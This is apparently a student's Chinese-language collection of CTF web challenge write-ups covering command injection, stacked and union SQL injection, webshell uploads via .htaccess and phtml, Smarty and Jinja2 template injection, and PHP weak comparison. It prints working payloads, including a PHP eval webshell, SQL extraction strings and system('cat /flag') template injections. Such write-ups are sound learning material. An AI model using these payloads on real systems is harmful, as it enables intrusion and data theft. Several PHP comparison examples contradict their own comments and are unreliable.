# CTF WP-WEB

---

## [ACTF2020 新生赛]Exec

### 题解：






### 总结：

可能需要查看多级目录，多试试

### 补充知识：

;直接分号分隔

管道符：作用和&一样。前面和后面命令都要执行，无论前面真假

| 按位或

作用是直接执行|后面的语句

|| 逻辑或

作用是如果前面命令是错的那么就执行后面的语句，否则只执行前面的语句

& 按位与

&前面和后面命令都要执行，无论前面真假

&& 逻辑与

如果前面为假，后面的命令就不执行，如果前面为真则再执行后面命令，这样两条命令都会被执行

---

## [GXYCTF2019]Ping Ping Ping

### 题解：

[【BUUCTF】[GXYCTF2019] Ping Ping Ping 总结笔记 Writeup-CSDN博客](https://blog.csdn.net/vanarrow/article/details/108295481)

### 总结：

使用到了命令绕过、内联执行等技术，参考题解中的ab变量使用进行绕过字符匹配或使用base64编码绕过明文匹配

---

## [强网杯 2019]随便注

### 题解：

由于select关键字被过滤，故使用堆叠注入，通过一步步的查询可以找到flag算在的位置为1919810 table中的一个column，通过使用concat构造动态查询获取flag具体内容

[BUUCTF [强网杯 2019]随便注 1（两种方法）-CSDN博客](https://blog.csdn.net/m0_62879498/article/details/123292860)

给出的答案如下：
```
-1';use supersqli;set @sql=concat('s','elect flag from `1919810931114514`');PREPARE stmt1 FROM @sql;EXECUTE stmt1-- q
```
通过自己尝试仿照答案实现的注入如下：
```
1';use supersqli;set @tmp=concat('s','elect flag from `1919810931114514`');PREPARE temp from @tmp;EXECUTE temp ;
```
或是通过修改表名的操作实现：
```
1';rename table words to word2;rename table `1919810931114514` to words;

ALTER TABLE words ADD id int(10) DEFAULT '12';

ALTER TABLE words CHANGE flag data VARCHAR(100);-- q
```
然后通过构造1' or 1=1;实现

### 总结：

其中set @变量名= concat这一步操作中变量一定是以@开头的，并且在每一个堆叠的语句后面都要加上;进行分割

对于纯数字或是不符合命名标准的表名要加上``进行区分

---

## [极客大挑战 2019]LoveSQL

### 题解：


简单的sql注入，没什么好说的，用户名就是admin



但是这并不是flag，具体解题思路如下：

[[极客大挑战 2019]LoveSQL 1-CSDN博客](https://blog.csdn.net/satasun/article/details/106246493)

username=admin' order by 4%23&password=1通过盲注可知没有第四列，即只有三列
```
/check.php?username=1' union select 1,2,3%23&password=1
```
通过下面的union查询测试回显点位，得到可进行操作的点位为2和3，因此，通过下面的语句查询数据库和版本：
```
/check.php?username=1' union select 1,database(),version()%23&password=1
```
通过这个语句获取当前所在的数据库中的表有哪些：
```
/check.php?username=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23&password=1
```



```
/check.php?username=1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'%23&password=1
```
进一步查询指定的表中的列有哪些：

```
/check.php?username=1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'%23&password=1
```


可见在l0ve1ysq1这个表中有如上三个字段

最后查询字段的内容：
```
/check.php?username=1' union select 1,2,group_concat(id,username,password) from l0ve1ysq1%23&password=1
```



---

## [极客大挑战 2019]Secret File

### 题解：

查看网页元素后发先有一个action.php文件可以访问，但是每当我们访问的时候，他总会跳转到其他end.php的位置，通过网页抓包并进行重放得如下内容：



可以发现注释了一个文件，打开后如下：



代码审计后想要代开flag.php查看，结果：


需要使用filter协议过滤



最后进行解密：



---

## [MRCTF2020]你传你****🐎****呢

### 题解：

使用.htaccess针对Apache进行修改，AddType application/x-httpd-php .png

将之后上传的所有png文件以php形式执行

通过蚁剑进行连接，在目录中找到flag

---

## [极客大挑战 2019]Upload

### 题解：

php会被过滤，因此使用phtml格式是现在

GIF89a  //习惯在文件前加上GIF89a来绕过PHP getimagesize的检查，这道题中有无皆可

<script language='php'>@eval($_POST[shell]);</script>

尝试访问路径/upload验证文件所在地后进行调用

使用蚁剑连接，在根目录下找到flag

---

## [MoeCTF 2022]Sqlmap_boy

https://www.nssctf.cn/problem/3350

* 考点：sql注入
* 工具：sqlmap,burpsuit

浏览器F12查看源码，发现有提示，根据提示的sql格式对输入进行闭合操作，注意引号类型不同无法闭合；成功闭合后跳转到可注入连接，注意到有一个id变量可供注入，使用sqlmap构建命令；使用参数-dump直接输出数据库的所有具体表项内容，找到flag

sqlmap的-dump很好用，同时对于登录后的sql注入需要注意使用sqlmap时使用Cookie保持session

参考使用指南：
https://blog.csdn.net/qq_45719090/article/details/129241110
https://octobug.gitbooks.io/sqlmap-wiki-zhcn/content/

---

<!-- ## [HDCTF 2023]LoginMaster

https://www.nssctf.cn/problem/3782

* 考点：sql注入,quine注入
* 工具：burpsuit

- [ ] 完全理解
---
## [第五空间 2021]yet_another_mysql_injection

https://www.nssctf.cn/problem/334

* 考点：sql注入,quine注入
* 工具：burpsuit

- [ ] 完全理解
--- -->

## [LitCTF 2024]一个....池子？

https://www.nssctf.cn/problem/5606

* 考点：SSTI
* 工具：fenjing

- [ ] 完全理解

使用工具 `fenjing`，直接对可绕过链接进行操作，绕过成功后即可进行过命令操控

fenjing工具：https://github.com/Marven11/FenJing

---

## [GDOUCTF 2023]受不了一点

https://www.nssctf.cn/problem/3727

* 考点：弱比较，数组绕过，php审计
* 工具：yakit(burpsuit/hackbar等都可以)

### 题解部分：

题目直接给出了一个php代码，代码如下：



审计 `php`代码可以知道，这个代码是通过多个 `if`语句进行条件判断来隐藏flag信息，只要一层层按照 `if`的要求完成即可

下面是对代码有用部分的简单解读：

```php
if(isset($_POST['gdou'])&&isset($_POST['ctf'])){
    $b=$_POST['ctf'];
    $a=$_POST['gdou'];
```

检查 POST 请求是否包含 `gdou` 和 `ctf` 两个字段并将这两个字段分别赋值给 `$a` 和 `$b`。

**在满足了上述代码的 `if`条件后，即存在需要的那两个字段才能继续下面的部分，所以需要我们去在 `POST`包中添加两个指定的字段名称**

```php
if($_POST['gdou']!=$_POST['ctf'] && md5($a)===md5($b)){
```

代码首先检查 `gdou` 和 `ctf` 是否相等（`$_POST['gdou']!=$_POST['ctf']`）以及两个字段的 MD5 哈希值是否相同,如果它们的字段值不同并且哈希值相同，则允许继续执行下面的内容。

**这里用到的是md5绕过，PHP 中的 `md5()`函数允许你使用数组作为该函数的参数，`md5()` 函数对于任何数组都将返回 `NULL`,所以，可以构建 `gdou[]=1&ctf[]=2`**

```php
if(isset($_COOKIE['cookie'])){
   if ($_COOKIE['cookie']=='j0k3r'){
```

代码检查是否有名为 `cookie` 的 Cookie，并且其值为 `'j0k3r'`满足条件则进入下一个代码块则继续执行。

**在POST包中添加 `Cookie：cookie=j0k3r`即可。**

```php
if(isset($_GET['aaa']) && isset($_GET['bbb'])){
    $aaa=$_GET['aaa'];
    $bbb=$_GET['bbb'];
```

检查 URL 参数中是否包含 `aaa` 和 `bbb`,如果都有则继续.

**所以我们要在 `url`即 `header`部分添加 `/?aaa&bbb`的部分，其具体的值下面会给出。**

```php
if($aaa==114514 && $bbb==114514 && $aaa!=$bbb){
    $give = 'cancanwordflag';
    $get ='hacker!';
```

如果 `aaa` 和 `bbb` 的值都为 `114514`，并且 `aaa` 不等于 `bbb`那么设置两个变量 `$give` 和 `$get`，分别为 `'cancanwordflag'` 和 `'hacker!'`。

**这里用到了php代码中弱比较 `==`的特点，因此可以构造 `/?aaa=114514&bbb=114514a`来满足要求**

```php
echo $flag;
```

最后，如果代码成功运行到了这里，则输出 `$flag` 变量的值。

**整体来看，其实是套了5层 `if`语句的闯关游戏，全部按要求完成即可。**

最后得到的如下的 `POST`包:



这里还要注意一个细节，由于我们使用的是POST请求，所以需要指定 `Content-Type: application/x-www-form-urlencoded`,表单字段的名称和值会以 `key=value`的形式组成字符串，多个字段之间通过 `&`符号连接，且特殊字符会被 `URL`编码，这样 `$_POST['gdou']`才能读取到.

### `php`中弱比较的总结：

- 在 PHP 中，**字符串与数字比较时，字符串会被自动转换为数字**（如果可能的话）。
- **PHP 会对字符串进行类型转换**，将其从 `string` 转换为 `int` 或 `float`，如果转换失败则默认为 `0`。
- **`==`（弱比较）会进行类型转换**，而 **`===`（严格比较）不会**，严格比较时要求类型和值都相同。

1. **字符串与数字的比较原则**

PHP 在进行字符串和数字比较时，会尝试将字符串转换为数字类型。具体规则如下：

- 如果字符串的开始部分是一个有效的数字，PHP 会将其转换为该数字。例如，`"123abc"` 会被转换为 `123`，而 `"abc123"` 会被转换为 `0`。
- 如果字符串不包含有效的数字，则会被转换为 `0`。

2. **比较规则示例**

- **数字字符串与数字的比较**

```php
'123' == 123  // true，字符串 '123' 被转换为数字 123，与数字 123 比较，结果为相等
```

- **包含非数字字符的字符串与数字的比较**

```php
'123abc' == 123  // true，字符串 '123abc' 被转换为数字 123
'abc123' == 0    // true，字符串 'abc123' 被转换为数字 0
```

- **字符串与数字不等的比较**

```php
'0' == 0        // true，字符串 '0' 被转换为数字 0，与数字 0 比较
'0.1' == 0      // true，字符串 '0.1' 被转换为数字 0.1，与数字 0 比较，结果为不相等
'123abc' == 123 // true，字符串 '123abc' 被转换为数字 123
```

- **字符串完全无法转换为数字的情况**

```php
'hello' == 0    // true，字符串 'hello' 无法转换为数字，PHP 会把它转换为 0，所以等价于 0 == 0
```

3. **弱比较 `==` 与严格比较 `===` 的区别**

- **`==`（弱比较）**：PHP 会尝试将操作数转换为相同的类型后再进行比较。例如，数字和字符串之间的比较会发生类型转换，如前面的例子所示。
- **`===`（严格比较）**：PHP 在进行严格比较时，会比较变量的类型和内容，只有类型和值都相同才会返回 `true`。

**示例：**

```php
'123' == 123      // true，'123' 被转换为数字 123
'123' === 123     // false，字符串和数字类型不同
```

**特殊情况**

由于 PHP 的类型转换行为，可能会遇到一些不符合直觉的比较结果。例如：

```php
'1' == true       // true，因为字符串 '1' 被转换为数字 1，而 true 也转换为 1
'0' == false      // true，因为字符串 '0' 被转换为数字 0，而 false 也转换为 0
```

---

## [NISACTF 2022]midlevel

https://www.nssctf.cn/problem/3727

* 考点：SSTI, Smarty, PHP
* 工具：yakit

本题考查SSTI模板注入，进入开启的容器后，发现是一个获取自身IP的API，页面如下：



由最下方的信息可知这里使用`Smarty`模板引擎，通过给出的AIP地址，发现无法访问，但是在这个页面中，右上角又显示出了我们电脑的IP地址

可以猜测用到的是 `XFF`，在 `Yakit`中进行测试，修改XFF标签的内容



发生了下面的结果变动



进一步确认的之前的猜想，这里存在`SSTI`，接下来猜测应该需要通过这个漏洞去执行 `shell`命令，获取系统中的flag文件

在PHP中，直接执行 `shell`命令可以使用下面的代码结构：

```php
system('cmd')
```

据此替换XFF的值为

```php
{system('cat /flag')}#一般默认flag在根路径下
```



即得到了 `flag`



还有一种方法利用的是`Smarty`的`{if}`标签，`{if}`标签可以在里面执行`php`代码，所以也可以将`XFF`的内容替换为下面的：

```php
{if system('cat /flag')}{/if}
```

更详细的SSTI内容见下面的博客：

[PHP的模板注入（Smarty模板）_smarty模板注入-CSDN博客](https://blog.csdn.net/qq_45521281/article/details/107556915)

[1. SSTI（模板注入）漏洞（入门篇） - bmjoker - 博客园](https://www.cnblogs.com/bmjoker/p/13508538.html)

---

## [GWCTF 2019]你的名字

https://www.nssctf.cn/problem/259

* 考点：SSTI,Flask,Jinja2
* 工具：

进入容器网页后通过浏览器的F12可一发现使用的请求方式为`POST`，并且字段名称为`name`，由此，可以使用`fenjing`去直接进行绕过wap，执行指令找到flag

一开始执行
```bash
cat /flag
```
发现没有结果，猜测flag应该不在根目录，于是`ls`查看根目录情况:
```bash
ls /
```



发现一个`flag_1s_Hrea`的文件，打开查看后是告诉我们flag在环境变量中，于是继续执行下面的命令得到flag

```bash
printenv
```


---

## [SWPUCTF 2021 新生赛]easy_sql

https://www.nssctf.cn/problem/387

* 考点：sql注入
* 工具：sqlmap

进入题目的网页后可以发现网页标题已经告诉了你注入的参数是`wllm`，所以接下来可以直接使用`sqlmap`扫描尝试注入
```shell
python .\sqlmap.py -u http://node7.anna.nssctf.cn:29274/index.php?wllm=1
```



根据扫描结果可知存在`bool盲注`，直接使用--dump参数查看数据库内容
```shell
python .\sqlmap.py -u http://node7.anna.nssctf.cn:29274/index.php?wllm=1 --dump
```



---

## [SWPUCTF 2021 新生赛]jicao
* 考点：PHP审计，请求头
* 工具：python

`index.php`源码如下下：

```php
<?php
highlight_file('index.php');
include("flag.php");
$id=$_POST['id'];
$json=json_decode($_GET['json'],true);
if ($id=="wllmNB"&&$json['x']=="wllm")
{echo $flag;}
?>
```
其中代码要求上传的请求包中含有和`POST`匹配的的`id=="wllmNB"`以及和`GET`匹配的`json['x']=="wllm"`,构建下面的python代码即可：
```python
import requests

url = "http://node7.anna.nssctf.cn:29822/"
params = {"json": '{"x":"wllm"}'}  # 传递 JSON 格式的 GET 参数
data = {"id": "wllmNB"}  # 传递 POST 参数

response = requests.post(url, params=params, data=data)
print(response.text)  # 期待返回 flag
```

